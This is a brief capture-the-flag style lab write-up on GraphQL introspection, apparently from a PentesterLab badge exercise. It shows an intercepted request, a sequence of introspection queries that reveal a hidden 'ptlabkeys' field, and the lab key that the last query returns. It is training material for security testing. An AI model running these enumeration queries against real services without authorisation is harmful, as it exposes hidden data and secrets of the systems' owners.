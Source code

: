 ## Green Badge

### GraphQL Introspection

References

- https://graphql.org/learn/
- https://graphql.org/learn/introspection/

Notes

It's often useful to ask a GraphQL schema for information about what queries it supports. GraphQL allows us to do so using the introspection system!

Intercept on projects

```
POST http://ptl-e903a9b4-72b7b45b.libcurl.so/graphql HTTP/1.1
Accept: application/json, text/plain, */*
Content-Type: application/json

{"operationName":"projects","variables":{"offset":10},"query":"query projects($offset: Int) {\n  projects(offset: $offset, limit: 10) {\n    id\n    name\n    description\n    __typename\n  }\n}\n"}
```

GraphiQL interface

1

```
{
  __schema {
    queryType {
      name
    }
  }
}
```

2

```
{
  __type(name: "Query") {
    name
    kind
  }
}
```

3

```
{
  __type(name: "Query") {
    name
    fields {
      name
      type {
        name
        kind
      }
    }
  }
}
```

4

```
{
  ptlabkeys
  {
      id
      value
      __typename
  }
}
```

Solution

```
{
  "data": {
    "ptlabkeys": [
      {
        "id": "1",
        "value": "78ce1c9e-b8cc-4385-9fda-2c8e16dbc349",
        "__typename": "PtlabKey"
      }
    ]
  }
}
```


